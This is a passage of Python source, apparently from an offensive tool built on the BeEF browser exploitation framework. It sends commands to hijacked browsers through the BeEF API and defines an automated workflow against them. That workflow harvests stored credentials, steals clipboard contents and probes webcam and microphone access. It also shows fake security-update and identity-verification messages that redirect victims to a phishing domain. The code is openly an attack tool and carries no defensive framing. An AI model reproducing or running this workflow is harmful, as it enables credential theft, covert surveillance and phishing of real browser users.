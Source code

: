 ```python
            return []
    
    async def execute_beef_command(self, hook_id, command_module, parameters=None):
        """Execute BeEF command trên hooked browser"""
        
        command_payload = {
            'command_module': command_module,
            'parameters': parameters or {}
        }
        
        try:
            response = await self.make_beef_api_request(
                'POST',
                f'/api/hooks/{hook_id}/execute',
                data=command_payload
            )
            
            if response.get('success'):
                return {
                    'success': True,
                    'command_id': response.get('command_id'),
                    'result': response.get('result')
                }
            else:
                return {
                    'success': False,
                    'error': response.get('error', 'Unknown error')
                }
                
        except Exception as e:
            self.logger.error(f"BeEF command execution failed: {e}")
            return {'success': False, 'error': str(e)}
    
    async def advanced_browser_exploitation(self, hook_id):
        """Comprehensive browser exploitation workflow"""
        
        exploitation_sequence = [
            # Information gathering
            ('browser_info', {}),
            ('detect_software', {}),
            ('get_geolocation', {}),
            
            # Credential harvesting
            ('get_stored_credentials', {}),
            ('detect_social_networks', {}),
            
            # Persistence
            ('create_alert_dialog', {
                'title': 'Security Update Required',
                'text': 'Your browser requires a security update. Click OK to continue.',
            }),
            
            # Advanced exploitation
            ('webcam_permission_check', {}),
            ('microphone_access_test', {}),
            ('clipboard_theft', {}),
            
            # Social engineering
            ('fake_notification', {
                'type': 'security_warning',
                'message': 'Suspicious activity detected. Please verify your identity.',
                'redirect_url': f'{self.phishing_domain}/verify-identity'
            })
```
